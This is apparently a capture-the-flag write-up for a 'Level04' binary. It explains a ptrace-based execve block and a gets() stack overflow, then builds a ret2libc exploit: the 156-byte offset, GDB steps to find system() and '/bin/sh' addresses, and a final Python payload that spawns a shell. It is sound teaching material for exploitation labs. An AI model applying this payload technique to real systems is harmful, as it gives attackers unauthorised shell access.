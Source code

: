 # Level04

## What the binary does
When running the level04 binary, it creates a child process using fork().

In the child, it prints:
```
Give me some shellcode, k
```

Then it calls `gets()` on a local buffer of size 128. That’s our classic buffer overflow entry point.
But this vulnerable code is only executed by the child, not the parent.

## Anti-exec protection

Before we can do anything with the shellcode, the parent is watching the child.
It uses `ptrace()` to monitor the child’s system calls.
If it detects that the child tries to execute execve, it prints `"no exec() for you"` and kills the child.

So, we can’t use execve shellcode like we did in the previous levels.
Instead of using execve, we can call `system("/bin/sh")` directly.

##  Finding the offset

As usual, we need to know how far to overflow the buffer to reach the return address.

To make GDB follow the child instead of the parent (since that’s where the overflow happens), we run:
```
set follow-fork-mode child
```

We then send a pattern like "wiremask" and check where it lands.
The offset to the return address is 156 bytes.

##  Building the exploit
We’ll overwrite the return address with the address of system(), followed by 4 bytes of padding, and then the address of the string "/bin/sh".

Why 4 bytes of padding?
Because when calling a function like system(), the first value pushed onto the stack (after return address) is usually the argument, in this case, the address of "/bin/sh".
But the return address itself also needs a placeholder, so we add 4 bytes to pad over it.

## Finding the addresses
In GDB, we need to break before the child executes (in the gets call).

### Get the address of system():
```
p system
```

### Get libc memory range:
```
info proc map
```
We need to note down the start and end addresses of libc.

### Find the `/bin/sh` string inside libc:
```
find <libc_start>, <libc_end>, "/bin/sh"
```
This gives us the address to use as an argument to system().

## The final payload

system() address is 0xf7e6aed0
"/bin/sh" address is 0xf7f897ec

```
(python -c 'print "\x90"*156 + "\xd0\xae\xe6\xf7" + "A"*4 + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

This sends:
- \x90 * 156: padding (NOPs)
- \xd0\xae\xe6\xf7: address of system() (little endian)
- "A" * 4: padding for the return address of system()
- \xec\x97\xf8\xf7: address of /bin/sh
